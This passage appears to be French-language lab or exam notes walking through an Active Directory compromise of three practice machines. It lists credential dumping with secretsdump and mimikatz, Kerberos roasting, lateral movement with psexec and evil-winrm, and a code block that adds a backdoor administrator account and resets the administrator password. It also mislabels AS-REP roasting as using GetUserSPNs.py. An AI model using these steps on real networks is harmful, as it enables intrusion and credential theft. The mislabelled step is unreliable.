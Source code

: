 ## 4. Active Directory
Active Directory est un défi pour tout le monde. Avec les identifiants fournis, exécutez simplement un scan Nmap pour énumérer les services et les ports ouverts. Utilisez les résultats du scan pour déterminer où appliquer efficacement les identifiants en fonction des services identifiés. Il y a trois machines différentes : Machine01, Machine02, Domain01. La machine Machine01 commence toujours par un accès initial et une élévation de privilèges en tant que machine autonome. Veuillez utiliser les étapes suivantes pour travailler sur Active Directory :

1. Exécutez net user /domain.
2. Listez les utilisateurs et exécutez sharpHound.ps1 pour trouver les utilisateurs du domaine (autrement pas dans la liste des utilisateurs) ainsi qu'avec les étapes ci-dessous.
3. Exécutez secretdumps, et si vous venez d'un shell inversé, changez alors le mot de passe administrateur.
4. Pour le tunneling (utilisez Chisel ou exécutez avec SSH), s'il y a un problème, restaurez la machine.
5. Trouvez l'utilisateur et le mot de passe à partir de secretdumps, mimikatz lecteur c, fichiers de configuration, winpeas, etc.
6. Vérifiez les services avec des ports ouverts tels que 22, 1433, 5896, 5895, 445, etc.
7. Utilisez CrackMapExec avec l'utilisateur et le mot de passe, en testant avec les services ci-dessus.
8. Effectuez AS-REP Roasting avec GetUserSPN.py ou Rubeus.exe.
9. Si SQL, utilisez mssqlclient.py ; si SMB, utilisez psexec.py ; si WinRM ou evil-winrm, vérifiez l'administrateur, puis passez à l'étape suivante pour trouver le root Windows.
10. Pour Domain01 :
11. Exécutez secretsdump (Administrateur par défaut) avec utilisateur, passe ou hash, de même avec psexec, winrm, SSH, etc.
12. Directement rooted.

### Machine01
Après avoir obtenu l'élévation de privilèges, exécutez les commandes suivantes :

```bash
# Transférer SharpHound.ps1 vers la cible & charger dans powershell ::
. . \SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
# Utilisateurs trouvés compte domain01 (si vous trouvez un utilisateur, n'utilisez pas l'étape ci-dessous)
# transférer bloodhound.zip sur kali
# Créer un nouvel utilisateur (si vous voulez ou changer le mot de passe administrateur)
net user noman Noman@321 /add
net localgroup administrators noman /add
net user administrator Noman@123 # (mot de passe changé de l'administrateur)
# exécuter secret dump ou utiliser mimikatz pour trouver utilisateur et mot de passe sur machine01
# utiliser impacket pour secret dump https://github.com/fortra/impacket
python3 ./secretsdump.py ./administrator: Noman@123@192.168.10.10 # (vérifier les utilisateurs du domaine avec noman.domain spécialement nom d'utilisateur et mot de passe par défaut
# pour MimiKatz privilege::debug | token::elevate | sekurlsa::logonpasswords
```

### Machine02
La première étape consiste à démarrer le transfert de port, suivi de l'exécution d'AS-REP Roasting avec GetUserSPNs.py pour Linux et Rubeus.exe pour Windows. Si aucune méthode ne fonctionne, énumérez manuellement dans Windows pour trouver le nom d'utilisateur et le mot de passe ou utilisez à nouveau mimikatz. Si vous n'êtes pas administrateur, appliquez des techniques d'élévation de privilèges Windows. Cela vous aidera à obtenir des privilèges sur Machine02.
